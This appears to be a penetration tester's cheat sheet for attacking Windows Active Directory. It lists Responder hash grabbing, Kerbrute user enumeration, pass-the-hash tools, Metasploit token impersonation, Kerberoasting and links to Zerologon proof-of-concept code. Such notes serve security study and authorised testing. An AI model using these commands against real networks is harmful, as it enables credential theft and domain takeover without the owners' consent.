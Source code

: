 ## SCF attack: malicious file that trigger multicats request for another computers. Responder needed.
**Attack guide**: [https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/].
## LLMNR & NBT-NS POISONING AND CREDENTIAL ACCESS USING RESPONDER
**Run responder/ NTLMv2 hash grabbing**: responder -I [interface] -wF -v
## CONNECT TO RDP
xfreerdp /u:user /p:password321 /cert:ignore /v:MACHINE_IP
## Zero Logon    
**Testing script https://github.com/SecuraBV/CVE-2020-1472    
**PoC https://github.com/dirkjanm/CVE-2020-1472    
## Windows user enumeration with Kerbrute    
/kerbrute_linux_amd64 userenum --dc [IP] -d [domain name] usernames.txt    
## CVE-2019-6714 BlogEngine.NET    
**https://blog.gdssecurity.com/labs/2019/3/28/remote-code-execution-in-blogenginenet.html**    
## Pass the HASH
**Grab local hashes**: secretdump.py    
psexec.py    
crackmapexec    
wmiexec        
evil-winrm    
## Token Impersonation    
**Delegate**: creating for logging into a machine or RDP.    
**Impersonate**: "non-interactive", such as attachind network drive or a domain logon script.    

**Metasploit: Incognito**    
load_incognito //load module.    
list_tokens -u //list tokens for users.    
impersonate_token domain\\username //exploit.    

## Kerberoasting    
GetUserSPNs.py    

## GPP    
https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/    

## Enumerate another usernames/SIDs  
python3 lookupsid.py domain/username:password@IP
